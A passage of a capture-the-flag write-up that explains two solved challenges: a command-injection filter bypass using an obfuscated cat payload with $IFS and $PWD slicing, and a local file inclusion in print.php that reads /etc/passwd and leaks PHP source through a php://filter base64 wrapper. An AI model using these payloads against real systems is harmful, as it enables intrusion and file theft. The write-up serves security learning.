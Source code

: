to bypass this, note that the `$PWD` constant, referring to the path to the root directory, will contain a slash (eg. `/root/`)

we can use string slicing to extract the first character of $PWD and combine it with the original `cat` splitting and `$IFS` to cat `/flag.txt`.

final payload: `;'c''at'${IFS}${PWD:0:1}flag.txt`

flag: `brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}`

## > Brunsviger Husset (Web, 291 solves)
an interesting part of the source code:
```js
const printUrl = 'print.php?file=/var/www/html/bakery-calendar.php&start=2025-07&end=2025-09';
```

the file parameter is directly passed to print.php. if this isn't sanitised properly, this can lead to a Local File Inclusion (LFI) vulnerability, letting us read files on the backend.

let's try the per-procedure to pass `/etc/passwd` to the file parameter, and attempt to read it:

```
/print.php?file=/etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

it can be read, so this site is vulnerable to lfi.

visiting `/robots.txt`: 
```
User-agent: * Allow: /index.php Allow: /bakery-calendar.php Disallow: /print.php Disallow: /secrets.php
```

let's try to LFI `secrets.php`:
```
/print.php?file=/secrets.php
```

the site is blank. that makes sense, since the php is being run on the backend.

we can get it to spit out the source by base64 encoding the file contents, then decoding:

```
/print.php?file=php://filter/convert.base64-encode/resource=secrets.php
```
```
PD9waHAKLy8gS2VlcCB0aGlzIGZpbGUgc2VjcmV0LCBpdCBjb250YWlucyBzZW5zaXRpdmUgaW5mb3JtYXRpb24uCiRmbGFnID0gImJydW5uZXJ7bDBjNGxfZjFsM18xbmNsdXMxMG5fMW5fdGgzX2I0azNyeX0iOwo/Pgo=
```

decode in a platform such as CyberChef:
```php
<?php
// Keep this file secret, it contains sensitive information.
$flag = "brunner{l0c4l_f1l3_1nclus10n_1n_th3_b4k3ry}";
?>
```

